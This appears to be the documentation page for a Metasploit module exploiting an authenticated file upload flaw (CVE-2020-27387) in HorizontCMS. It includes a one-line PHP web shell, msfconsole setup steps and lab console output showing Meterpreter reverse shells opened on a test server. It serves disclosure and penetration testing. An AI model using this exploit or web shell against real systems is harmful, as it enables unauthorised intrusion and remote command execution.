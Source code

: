 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability (CVE-2020-27387) in HorizontCMS 1.0.0-beta and prior
in order to execute arbitrary commands.

The module first tries to obtain the HorizontCMS version and a csrf token from `/admin/login`.
Next, the module tries to authenticate via an HTTP POST request to the same destination.

If authentication is successful, the module tries to upload a malicious PHP file via an HTTP POST request to
`/admin/file-manager/fileupload`. The server will store the file, but will rename it to a random string.
The module will therefore attempt to change the filename back to the original name via an HTTP POST request to `/admin/file-manager/rename`.

If the `php` target is selected, the payload is embedded in the uploaded file and the module attempts to execute the payload via an HTTP GET
request to `/storage/file_name`.
For the `linux` and `windows` targets, the module uploads a simple PHP web shell similar to `<?php system($_GET["cmd"]); ?>`.
Subsequently, it leverages the CmdStager mixin to deliver the final payload via a series of HTTP GET requests in the form of
`/storage/<php_web_shell>?<cmd>=<payload>`.

Valid credentials for a HorizontCMS user with permissions to use the FileManager are required.
This would be all users in the Admin, Manager and Editor groups if HorizontCMS is configured with the default group settings.
This module has been successfully tested against HorizontCMS 1.0.0-beta running on Ubuntu 18.04.

Vulnerable software for testing is available on GitHub [here](https://github.com/ttimot24/HorizontCMS/releases).
Detailed installation instructions for Ubuntu 16.04 and 18.04 are available
[here](https://websiteforstudents.com/how-to-install-horizontcms-on-ubuntu-18-04-16-04-with-apache2/).
These instructions recommend configuring a virtual host for HorizontCMS.
If a virtual host is enabled on the target, successful exploitation requires the `vhost` option to be set for the module.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/HorizontCMS_upload_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the HorizontCMS account]`
6. Do: `set PASSWORD [password for the HorizontCMS account]`
7. Do: `set target [target]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the HorizontCMS account to authenticate with.
### TARGETURI
The base path to HorizontCMS. The default value is `/`.
### USERNAME
The username for the HorizontCMS account to authenticate with.

## Targets
```
Id  Name
--  ----
0   PHP
1   Linux
2   Windows
```

## Scenarios
### HorizontCMS 1.0.0-beta running on Ubuntu 18.04) - PHP target
```
msf6 exploit(multi/http/horizontcms_upload_exec) > show options 

Module options (exploit/multi/http/horizontcms_upload_exec):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   PASSWORD   test              yes       Password to authenticate with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.227     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                 yes       The base path to HorizontCMS
   URIPATH                      no        The URI to use for this exploit (default is random)
   USERNAME   test              yes       Username to authenticate with
   VHOST      testhorizont.com  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP


msf6 exploit(multi/http/horizontcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is HorizontCMS with version 1.0.0-beta
[+] Successfully authenticated to the HorizontCMS dashboard
[*] Uploading payload as EaCPK1HSbRru.php...
[+] Successfully uploaded EaCPK1HSbRru.php. The server renamed it to Mflikdb8nNKTivXU3HPZnpsCy3nOu34FH1IsWaxl
[+] Successfully renamed payload back to EaCPK1HSbRru.php
[*] Executing the payload...
[*] Sending stage (39264 bytes) to 192.168.1.227
[*] Meterpreter session 1 opened (192.168.1.128:4444 -> 192.168.1.227:49968) at 2020-10-31 15:52:57 -0400
[+] Successfully deleted EaCPK1HSbRru.php

meterpreter > getuid
Server username: www-data (33)
meterpreter >
```
### HorizontCMS 1.0.0-beta running on Ubuntu 18.04 - Linux target
```
msf6 exploit(multi/http/horizontcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is HorizontCMS with version 1.0.0-beta
[+] Successfully authenticated to the HorizontCMS dashboard
[*] Uploading payload as W6nQKce4Uq.php...
[+] Successfully uploaded W6nQKce4Uq.php. The server renamed it to L6TL9BHTAckj6UrzfSyOBvAT3Bl2uFskRHrG3pXG
[+] Successfully renamed payload back to W6nQKce4Uq.php
[*] Executing the payload via a series of HTTP GET requests to `/storage/W6nQKce4Uq.php?qo1E=<command>`
[*] Sending stage (3008420 bytes) to 192.168.1.227
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Meterpreter session 2 opened (192.168.1.128:4444 -> 192.168.1.227:49978) at 2020-10-31 15:56:58 -0400
[+] Successfully deleted W6nQKce4Uq.php

meterpreter > getuid
Server username: www-data @ ubuntu (uid=33, gid=33, euid=33, egid=33)
meterpreter > 
```
